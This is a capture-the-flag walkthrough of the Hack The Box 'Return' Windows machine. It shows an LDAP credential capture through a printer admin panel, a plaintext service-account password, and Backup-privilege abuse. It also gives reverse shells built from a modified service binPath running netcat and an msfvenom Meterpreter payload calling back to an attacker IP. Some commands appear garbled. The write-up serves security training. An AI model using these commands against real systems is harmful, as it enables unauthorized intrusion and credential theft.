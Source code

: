 ﻿---
title: 'Return Walkthrough: Exploiting Printer Misconfigurations'
date: 2024-11-08 19:00:00 +0530
categories: [red-teaming]
tags:
- HTB
- ldap
- on-prem
- privesc_backup
---

Walkthrough of HTB's Return machine

## Initial Recon

### NMAP Scan:

I began by scanning for interesting TCP ports to identify potential entry points:

```bash
> open_tcp_ports=$(sudo nmap -T5 -sS -n -Pn --disable-arp-ping -p- 10.10.11.108 --max-retries 0 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
> nmap -A -p $open_tcp_ports 10.10.11.42
```

**TCP scan results:**

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain?       syn-ack ttl 127
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-11-25 15:37:38Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49682/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
62633/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

No interesting information found in the UDP Scan results

### HTTP Recon

Accessing port 80 displays a web page labeled 'HTB Printer Admin Panel'.
![image.png]({ '/assets/img/Return/image%201.png' | relative_url })

Most available sections, such as 'Fax' and 'Troubleshooting,' are static, but the 'Settings' page includes an intriguing form with fields for the server address, port, username, and password, as shown below.
![image.png]({ '/assets/img/Return/image%202.png' | relative_url })

When I submitted the form, I observed that only the IP address field was forwarded to the server. Modifying the username and password fields did not result in any changes to the request.
![image.png]({ '/assets/img/Return/image%203.png' | relative_url })

Further research revealed interesting information
Printers can use LDAP (Lightweight Directory Access Protocol) to query the Active Directory for user details, such as email addresses, usernames, and group memberships. This allows features like:

- Sending scanned documents to a userâ€™s email directly.
- Displaying a list of users for specific authentication or tracking purposes.

For this to work, the printer needs LDAP credentials (often a service account like svc-printer) to bind to AD and perform queries.

I modified the IP address to point to my machine and set up a Netcat listener to intercept the data submitted by the form possibly revealing the password.

![image.png]({ '/assets/img/Return/image%204.png' | relative_url })

The incoming request revealed interesting information, which indeed appears to be a password.

```bash
â”Œâ”€â”€(kaliã‰¿kali)-[~]
â””â”€$ nc -nlvp 389                                                                   
listening on [any] 389 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.108] 63453
0*`%return\svc-printerï¿½
                       1edFg43012!!      
```

### SMB Recon

To validate the enumerated credentials, I used  netexec to enumerate SMB shares. The results confirmed that the credentials are valid, with the user having interesting 'READ' and 'WRITE' privileges on certain shares.
![image.png]({ '/assets/img/Return/image.png' | relative_url })

## Remote Access Using Compromised Credentials

I attempted to log in to the machine using the compromised credentials, as shown below:
![image.png]({ '/assets/img/Return/image%206.png' | relative_url })

Navigating to the Users directory reveals two users: svc-printer and Administrator
![image.png]({ '/assets/img/Return/image%205.png' | relative_url })

Accessing "user.txt" on the svc-printer's desktop reveals first flag.

## Privilege Escation to SYSTEM

### Method - 1

Enumerating privileges of "svc-printer" using *whoami* command
![image.png]({ '/assets/img/Return/image%207.png' | relative_url })

Since the user has the Backup privilege enabled. Uploading the necessary module to leverage this privilege for replication.
![image.png]({ '/assets/img/Return/image%208.png' | relative_url })

Using robocopy to copy the Administratorâ€™s desktop files to a temporary folder.
![image.png]({ '/assets/img/Return/image%209.png' | relative_url })

Followed by accessing root.txt

### Method - 2

Since the user belongs to the "Server Operators" group, which has the ability to start and stop system services,  leveraged this privilege to gain a reverse shell. Using evil-winrm, uploaded Netcat to the "Return" machine and modified the service configuration to execute a reverse shell command:

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:[SC] ChangeServiceConfig SUCCESS4.exe -e cmd.exe 10.10.16.5 4444"
```

Stopping and restarting the service to trigger the reverse shell

```bash
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss
[SC] ControlService FAILED 1062:

The service has not been started.

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

> ðŸ’¡ **Note**: When executing the command sc start vss, it is important to explicitly specify sc.exe for the command to work correctly. Simply using sc will not be sufficient.

However, the obtained shell terminated after a few seconds. To resolve this issue, I proceeded to upload a Meterpreter shell for further exploitation.

Generated meterpreter reverse shell executable payload file using msfvenom
```bash
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.5 LPORT=8888 -f exe > payload.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

Configuring Metasploit listener to listen on 8888

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.5
LHOST => 10.10.16.5
msf6 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
```

The same issue was observed when using the Metasploit Framework; the reverse shell terminated after a few seconds.

![image.png]({ '/assets/img/Return/image%2010.png' | relative_url })

To stabilize the session, I migrated the process to a more suitable one using the migrate <pid> command.

![image.png]({ '/assets/img/Return/image%2011.png' | relative_url })

Spawning the shell

![image.png]({ '/assets/img/Return/image%2012.png' | relative_url })

## Disclaimer

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*




